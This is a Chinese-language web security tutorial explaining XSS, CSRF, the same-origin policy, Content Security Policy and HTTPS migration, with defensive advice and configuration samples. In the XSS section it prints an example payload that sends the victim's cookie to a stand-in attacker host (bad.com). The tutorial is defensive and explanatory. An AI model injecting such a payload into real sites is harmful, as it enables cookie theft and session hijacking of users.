

# Web安全

Web 安全是一个十分重要的话题。基于 Web 环境的互联网应用越来越广泛，其安全问题也日益凸显，代码中的细小漏洞随时可能被攻击者利用，导致用户的隐私信息泄露、财产损失。本章节介绍一些常见的 Web 安全常识，帮助您构建更加安全的 Web 应用。

## 常见的安全漏洞

Web 常见的安全漏洞种类很多，如 `XSS`, `CSRF`, `SQL注入`,`Cross IFrame Trick`, `clickJacking`,  `文件上传` 等等。下面列举两种客户端常见的安全漏洞。

### XSS

XSS (Cross Site Scripting)，跨站脚本攻击。为了和层叠样式表(Cascading Style Sheets，CSS)区分开，跨站脚本在安全领域叫做 XSS。攻击者往 Web 页面里注入恶意代码，当用户浏览这些网页时，就会执行其中的恶意代码，可对用户进行盗取 cookie 信息、会话劫持、改变网页内容、恶意跳转等各种攻击。XSS 是常见的 Web 攻击技术之一，由于跨站脚本漏洞易于出现且利用成本低，所以被 OWASP 列为当前的头号 Web 安全威胁。

举一个简单的例子

在 `a.com` 的搜索输入框中输入如下内容，并提交请求
```
<script>location.href=http://www.bad.com/?cookie=document.cookie</script>
```
如果前端没有进行过滤，浏览器地址可能变为：
```
http://www.a.com/?query=<script>location.href=http://www.bad.com/?cookie=document.cookie</script>
```
此时，用户的 cookie 信息已经被发送到攻击者的服务器，攻击者便能利用收集的 cookie 信息来伪造用户身份，进行多种恶意非法操作。


XSS 攻击类型一般分为三种：

- 反射型 XSS

反射型 XSS 只是简单的把用户输入的数据“反射”给浏览器，XSS 脚本出现在 URL 请求参数里，也就是说需要诱使用户“点击”一个恶意链接，才能攻击成功。反射型 XSS 也叫作非持久型 XSS。

- 储存型 XSS

存储型 XSS 也被称为持久型 XSS，当攻击者输入一段恶意脚本后，被服务端接受保存，当用户访问这个页面时，恶意脚本就会被执行，从而造成漏洞。

- DOM Based XSS

基于 DOM 的 XSS，通过对具体 DOM 代码进行分析，根据实际情况构造 DOM 节点进行 XSS 跨站脚本攻击。

#### 防范 XSS

对于 XSS 攻击，我们可以做如下防范：

1. 输入过滤。永远不要相信用户的输入，对用户输入的数据做一定的过滤。如输入的数据是否符合预期的格式，比如日期格式，Email 格式，电话号码格式等等。同时，后台服务器需要在接收到用户输入的数据后，对特殊危险字符进行过滤或者转义处理，然后再存储到数据库中。

2. 输出编码。服务器端输出到浏览器的数据，可以使用系统的安全函数来进行编码或转义来防范 XSS 攻击。输出 HTML 属性时可以使用 HTML 转义编码（HTMLEncode）进行处理，输出到页面脚本代码中，可以相应进行 Javascript encode 处理。

3. HttpOnly Cookie。预防 XSS 攻击窃取用户 cookie 最有效的防御手段。Web 应用程序在设置 cookie 时，将其属性设为 HttpOnly，就可以避免该网页的 cookie 被客户端恶意 JavaScript 窃取，保护用户 cookie 信息。

4. WAF(Web Application Firewall)，Web 应用防火墙，主要的功能是防范诸如网页木马、XSS 以及 CSRF 等常见的 Web 漏洞攻击。由第三方公司开发，在企业环境中深受欢迎。


### CSRF

CSRF (Cross Site Request Forgery)，即跨站请求伪造。简单的理解是，攻击者盗用了你的身份，以你的名义发送恶意请求。CSRF 能够做的事情包括：以你名义发送邮件，发消息，盗取你的账号，甚至于购买商品，虚拟货币转账等，造成个人隐私泄露，财产损失。

举个例子，受害者用户登录网站 A，输入个人信息，在本地保存服务器生成的 cookie。攻击者构建一条恶意链接，例如对受害者在网站 A 的信息及状态进行操作，典型的例子就是转账。受害者打开了攻击者构建的网页 B，浏览器发出该恶意连接的请求，浏览器发起会话的过程中发送本地保存的 cookie 到网址 A，A 网站收到 cookie，以为是受害者发出的操作，导致受害者的身份被盗用，完成攻击者恶意的目的。




#### 防范 CSRF

对于 CSRF 攻击，我们可以做如下防范：

1. 验证码。应用程序和用户进行交互过程中，特别是账户交易这种核心步骤，强制用户输入验证码，才能完成最终请求。在通常情况下，验证码够很好地遏制 CSRF 攻击。但增加验证码降低了用户的体验，网站不能给所有的操作都加上验证码。所以只能将验证码作为一种辅助手段，在关键业务点设置验证码。

2. Referer Check。HTTP Referer 是 header 的一部分，当浏览器向 Web 服务器发送请求时，一般会带上 Referer 信息告诉服务器是从哪个页面链接过来的，服务器以此可以获得一些信息用于处理。可以通过检查请求的来源来防御 CSRF 攻击。正常请求的 referer 具有一定规律，如在提交表单的 referer 必定是在该页面发起的请求。所以通过检查 http 包头 referer 的值是不是这个页面，来判断是不是 CSRF 攻击。

3. Anti CSRF Token。目前比较完善的解决方案是加入 Anti-CSRF-Token，即发送请求时在 HTTP 请求中以参数的形式加入一个随机产生的 token，并在服务器建立一个拦截器来验证这个 token。服务器读取浏览器当前域 cookie 中这个 token 值，会进行校验该请求当中的 token 和 cookie 当中的 token 值是否都存在且相等，才认为这是合法的请求。否则认为这次请求是违法的，拒绝该次服务。


## 同源策略

浏览器的同源策略是 Web 安全的基石，它对从一个源加载的文档或脚本如何与来自另一个源的资源进行交互做出了限制。这是一个用于隔离潜在恶意文件的关键的安全机制，每个源均与其余网络保持隔离，从而为开发者提供一个可进行构建和操作的安全沙盒。

如果没有同源策略， Web 世界就变得非常不安全，拿浏览器中的 cookie 来说，当你登录 a 网站，同时打开 b 网站，b 网站能获取你 a 网站的 cookie，盗取你的身份凭证进行非法操作。

同源策略只是一个规范，虽然并没有指定其具体的使用范围和实现方式，但各个浏览器厂商都针对同源策略做了自己的实现。

#### 同源的定义

如果协议，端口和主机对于两个页面是相同的，则两个页面具有相同的源。

例如，相对于
```
http://www.example.com/dir/page.html
```
同源情况如下

| 地址 | 结果 |
| :---:| :----: |
| http://www.example.com/dir2/other.html | 同源 |
| http://v2.www.example.com/dir/other.html | 不同源（主机不同） |
| https://www.example.com/dir/other.html | 不同源（协议不同） |
| http://www.example.com:81/dir/other.html | 不同源（端口不同）|

#### 限制范围

非同源的网站，主要有3种行为受到限制

1. 无法共享 cookie, localStorage, indexDB
2. 无法操作彼此的 DOM 元素
3. 无法发送 Ajax 请求

同源策略做了很严格的限制，但在实际的场景中，又确实有很多地方需要突破同源策略的限制，也就是我们常说的跨域。

规避上述限制，实现跨域通信的解决方案有多种，如 `JSONP`，`CORS`，使用`window.name`，使用` window.postMessage` 等，这里就不一一展开讲了。


## CSP(内容安全策略)

CSP(Content Security Policy) 即内容安全策略，主要目标是减少、并有效报告 XSS 攻击，其实质就是让开发者定制一份白名单，告诉浏览器允许加载、执行的外部资源。即使攻击者能够发现可从中注入脚本的漏洞，由于脚本不在白名单之列，浏览器也不会执行该脚本，从而达到了降低客户端遭受 XSS 攻击风险和影响的目的。

默认配置下，CSP 甚至不允许执行内联代码（ `<script>` 块内容，内联事件，内联样式），以及禁止执行`eval()`, `setTimeout` 和 `setInterval`。在需要的情况下，可以通过设置 `unsafe-inline`，来解除这一限制。

目前浏览器对 CSP 的支持情况可以在 [这里查看](http://caniuse.com/#search=CSP)

### 启用 CSP

有两种方法配置并启用 CSP

1.设置 HTTP 头的 Content-Security-Policy 字段（旧版 X-Content-Security-Policy）
```
Content-Security-Policy: script-src 'self'; object-src 'none';style-src cdn.example.org third-party.org; child-src https:
```
2.设置页面的 `<meta>` 标签
```
<meta http-equiv="Content-Security-Policy" content="script-src 'self'; object-src 'none'; style-src cdn.example.org third-party.org; child-src https:">
```
上述例子进行了配置

- script: 只信任当前域名
- object-src: 不允许加载任何插件资源（如object, embed, applet 等标签引入的 flash 等插件）
- 样式: 只信任来自 cdn.example.org 和 third-party.org
- 框架内容（如 iframe）: 必须使用 https 协议加载

CSP 提供了很多可配置的选项来针对不同资源的加载进行限制，常见的有，

- script-src：外部脚本
- style-src：样式表
- img-src：图像
- media-src：媒体文件（音频和视频）
- font-src：字体文件
- object-src：插件（比如 Flash）
- child-src：框架
- manifest-src：manifest 文件


如果不为某条配置设置具体的值，则默认情况下，该配置在运行时认为你指定 * 作为有效来源（例如，你可以从任意位置加载字体，没有任何限制）。也可以设置 `default-src` 的值，来代替各个选项的默认值。

每个配置选项的值，可填入以下内容

- 主机名：example.org，https://example.com:443
- 路径名：example.org/resources/js/
- 通配符：\*.example.org，\*://\*.example.com:\*（表示任意协议、任意子域名、任意端口）
- 协议名：https:、data:
- 关键字 'self'：当前域名，需要加引号
- 关键字 'none'：禁止加载任何外部资源，需要加引号

这里不对资源白名单的配置具体介绍了，更多内容可参阅：[https://www.w3.org/TR/CSP/](https://www.w3.org/TR/CSP/)


## HTTPS

HTTPS 即 HTTP over SSL/TLS，是 HTTP 的安全版本，在 HTTP 上加了一层处理加密信息的模块。
 SSL/TLS 全称安全传输层协议 Transport Layer Security, 是介于 TCP 和 HTTP 之间的一层安全协议，不影响原有的 TCP 协议和 HTTP 协议，所以使用 HTTPS 基本上不需要对 HTTP 页面进行太多的改造。

HTTPS 的主要作用是：

1. 对数据进行加密，并建立一个信息安全通道，来保证传输过程中的数据安全;
2. 对网站服务器进行真实身份认证。

基于 SSL/TLS 进行加密，解密，验证的过程，简单地说可以分成3步

1. 客户端向服务器端索要并验证公钥。
2. 双方协商生成"对话密钥"。
3. 双方采用"对话密钥"进行加密通信。


HTTPS 服务器拥有一张数字证书，包含了经过认证的网站公钥和一些元数据，客户端和服务端通信时，会首先验证证书的有效性，来决定是否继续通信。这样一来，经过了身份认证、信息加密等步骤，网络通信安全就得到了保障。

### 使用 HTTPS 的理由

HTTP 协议采用明文传输信息，存在信息窃听、信息篡改和信息劫持的风险，而协议 SSL/TLS 正是为了解决这三大风险而设计，符合该协议的通信信息都是加密传播，第三方无法窃听，且具有校验机制，一旦信息被篡改，通信双方就能立刻发现，此外身份证书能有效防止身份被冒充。

将 Web 应用升级成为 HTTPS 是大势所趋，不论站点是否涉及到敏感数据。HTTPS 一方面能够保障站点的安全、保护用户的隐私，随着 Web 应用平台的多元化发展，拍照、录音、以及使用 service worker 启用离线应用功能、构建 PWA 应用等等，都需要较高的用户权限许可，HTTPS 是支持这些全新功能、API的必要条件，是未来新技术的发展方向。


### 升级 HTTPS

将 Web 应用升级成 HTTPS 一般需要以下几个步骤。

1.获取证书

HTTPS 证书实质是一个二进制文件，可以自己生成，或者从经销商处购买。自己生成的证书无法获得浏览器的信任，访问时会有安全提示。购买 CA 颁发的证书有很多类型，分为域名认证、公司认证、扩展认证三个级别，还分成单域名、通配符、多域名三种覆盖范围。认证级别越高、覆盖范围越广的证书，价格越贵。

2.在服务器安装证书

可以将证书文件存放在 `ect/ssl` 目录，然后选择对应的服务器进行配置，使用 [ Mozilla 便捷的配置生成器](https://www.w3.org/TR/CSP/) 

3.重定向配置

将 HTTP 的访问请求 301 到 HTTPS

Nginx
```
server {
	listen 80;
	server_name domain.com www.domain.com;
	return 301 https://domain.com$request_uri;
}
```
Apache （.htaccess文件）
```
RewriteEngine On
RewriteCond %{HTTPS} off
RewriteRule (.*) https://%{HTTP_HOST}%{REQUEST_URI} [R=301,L]
```
4.修改资源链接

将站点所有的 HTTP 资源地址替换成 HTTPS，一个比较好的方法是直接将协议头替换成 `//`，这样浏览器会自动根据当前页面的协议加载相同协议头的资源，更为灵活。例如：
```
<script src="http://a.com/jquery.js"></script>
```
改为
```
<script src="//a.com/jquery.js"></script>
```
HTTPS 站点中包含不安全的 HTTP 协议请求子资源会降低整个页面的安全性，因为这些请求容易受到 XSS，中间人等各种攻击。浏览器遇到这种情况会给出存在混合内容（Mixed Content）的 Warning，但不会去阻止这些请求（虽然通过 CSP 的配置可以统一 block 掉，但极易导致网站不可用，一般不推荐这么做）。用户看到这些 Warning 的时候，如果存在威胁，很有可能已经被攻击。所以开发者有义务将资源替换成 HTTPS，减少安全风险。

5.可以进一步保证安全：设置 Cookie 安全标记

如果用户的身份验证 Cookie 将在明文中暴露，则整个会话的安全保障将被破坏，因此，应该确保浏览器只在使用 HTTPS 时，才发送 Cookie。

在网站响应头里面，Set-Cookie字段加上Secure标志即可。
```
Set-Cookie: LSID=DQAAAK...Eaem_vYg; Secure
```

迁移成为 HTTPS 后，也不必过分担心额外的性能开销问题。HTTPS 和 HTTP 相比，在 TCP 三次握手的基础上，还多了 SSL 握手的过程，也叫SSL延迟。当总体内容和应用层性能优化得当时，这些都是小问题了。


